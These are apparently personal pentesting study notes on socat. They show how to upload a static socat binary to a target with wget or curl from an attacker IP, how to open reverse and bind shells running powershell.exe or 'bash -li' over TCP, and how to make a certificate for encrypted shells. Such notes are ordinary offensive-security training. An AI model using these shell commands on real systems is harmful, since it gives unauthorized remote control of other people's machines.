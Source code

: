 
get binary https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true

from simpler nc shell:
- upload socat binary to target machine (`python3 -m http.server 8000`)
- `wget 10.18.21.236/socat` or `curl -O http://10.18.21.236/socat` to dl to current dir

socat is used to connect two points together - for example your keyboard/screen and a remote ip+port

mostly useful on linux

---
## Shells

#### Reverse shell - Listener on our machine

listen on our machine: (can be used like `nc -lvnp <port>`, not just for socat connections)
`socat TCP-L:<port> -`

connect with windows target:
`socat TCP:<ip>:<port> EXEC:powershell.exe,pipes`
`pipes` forces use of unix style io

connect with linux target:
`socat TCP:<ip>:<port> EXEC:"bash -li"`

#### Bind shell - listener on target

listen on linux target:
`socat TCP-L:<port> EXEC:"bash -li"`

listen on windows target:
`socat TCP-L:<port> EXEC:powershell,pipes`
`pipes` forces use of unix style io

connect with our machine:
`socat TCP:<ip>:<port> -`

`-` means stdio, standard input output


### Debugging

You can add `-d -d` to a socat command to increase verbosity


## Encrypted shells

#### Create certificate

generate a certificate:
`openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt`
`req` request a certificate
`--newkey rsa:2048` generate a 2048 bit RSA key
`-nodes` save private key as plain text
`-keyout shell.key` key filename
`-x509` generate a self-signed cert
`-days 362` set cert validity
`-out shell.crt` cert filename
